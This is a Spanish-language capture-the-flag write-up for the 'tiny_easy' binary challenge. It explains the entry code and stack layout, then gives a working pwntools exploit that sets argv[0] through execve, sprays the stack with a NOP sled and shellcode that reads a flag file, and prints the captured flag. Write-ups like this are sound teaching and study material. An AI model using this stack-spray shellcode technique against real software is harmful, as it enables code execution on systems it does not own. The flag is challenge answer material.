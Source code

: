 # tiny easy

<img width="132" height="169" alt="tiny_easy" src="https://github.com/user-attachments/assets/b19f58bf-e568-43a1-9f70-7ffdb791a5e0" />

``` 
checksec tiny_easy
[*] '/home/kalcast/tiny_easy'
    Arch:       i386-32-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX disabled
    PIE:        No PIE (0x8048000)
```

## Intro
El programa solo cuenta con un par de instrucciones:
```
[0x08048054]> pdf
            ;-- eip:
/ 6: entry0 ();
| rg: 0 (vars 0, args 0)
| bp: 0 (vars 0, args 0)
| sp: 0 (vars 0, args 0)
|           0x08048054      58             pop eax
|           0x08048055      5a             pop edx
|           0x08048056      8b12           mov edx, dword [edx]
\           0x08048058      ffd2           call edx
[0x08048054]>
```

Si usamos un debugger vemos que el stack al comienzo del programa luce asi:
```
| "USER=senor"       |
| "PATH=/usr/bin"    |   <-- variables de entorno
| "arg1"             |
| "arg2"             |
| "./program"        |   <-- argumentos
| envp[]             |   <-- punteros a variables  de entorno
| argv[]             |   <-- punteros a argumentos
| argc               |   <-- tope (esp)
```

Los primeros 4 bytes de argv\[0\] representan la nueva direccion que se le pasará a `edx`. Debemos controlarla para saltar la ejecucion al shellcode que escribamos en el stack, porque el binario no tiene el bit NX activo y el stack es ejecutable.

Segun la manpage de `execve` podemos pasar la ruta al ejecutable pero cambiar su nombre(`argv[0]`). Por ejemplo: `execve("/bin/ls",["listar_archivos","-lh"],NULL)`:

<img width="1068" height="345" alt="2025-08-12-190701_1068x345_scrot" src="https://github.com/user-attachments/assets/626e1d68-0ce8-437c-a56c-1b70f3e0c7c7" />

## Stack spray
Hay un limite para el tamaño que pueden tener `argv[]`, `env[]` y en general la lista que se le pasa a `execve`. Sin embargo esto [no siempre cuadra y parece ser especifico del sistema](https://stackoverflow.com/questions/63959200/the-maximum-summarized-size-of-argv-envp-argc-command-line-arguments-is-alwa).

No podemos saber la direccion exacta de nuestro shellcode por el ASLR pero podemos hacer un "stack spray" para llenar una region de la pila considerablemente grande con NOP slides y shellcode. Podemos hacer uso tanto de `argv[]` como de `env[]`.

```py
from pwn import *
context.log_level = "error"

# I simply started with a nop sled of 100 bytes and increased it gradually until the program complained
nop_sled = b"\x90" * (1024 * 126 - 4)
shellcode = asm(shellcraft.open("flag") + shellcraft.read("eax","esp",50) + shellcraft.write(1,"esp",50) + shellcraft.exit(0))
# Trial and error looking at the core dumps and calculating some stuff
address = 0xffce11d4

argv0 = [p32(address) + nop_sled + shellcode]

for _ in range(200):
    try:
      p = process(argv=argv0,executable="./tiny_easy")
      print(p.recv(50))
      break
    except Exception as e:
      p.close()
      continue
```

`Such_a_tiny_task:_Great_job_done_here!`




